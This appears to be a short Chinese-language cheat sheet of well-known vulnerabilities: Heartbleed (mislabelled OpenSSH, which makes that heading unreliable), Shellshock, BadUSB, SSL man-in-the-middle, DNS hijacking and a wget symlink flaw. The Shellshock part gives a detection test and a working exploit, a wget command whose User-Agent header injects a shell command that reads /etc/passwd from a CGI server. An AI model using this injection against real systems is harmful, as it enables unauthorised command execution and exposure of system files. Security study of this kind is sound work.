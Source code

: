 # 安全漏洞
### [OpenSSH] HeartBleed

* [关于OpenSSL“心脏出血”漏洞的分析](http://drops.wooyun.org/papers/1381)

### [Bash] ShellShock
检测方法：
```
#!bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
```

利用方法：
```
#!bash
wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.248.2.15/cgi-bin/testing.cgi
```
漏洞原因：
> Bash supports exporting not just shell variables, but also shell
functions to other bash instances, via the process environment to
(indirect) child processes ... The vulnerability occurs because
bash does not stop after processing the function definition; it
continues to parse and execute shell commands following the function
definition.

## BadUSB

## SSL中间人攻击

## DNS挟持
利用路由器弱口令

## wget漏洞
当Wget向FTP服务器请求递归目录时，存在一个关于软链接的漏洞，它将允许黑客任意创建文件、目录或软链接（符号链接）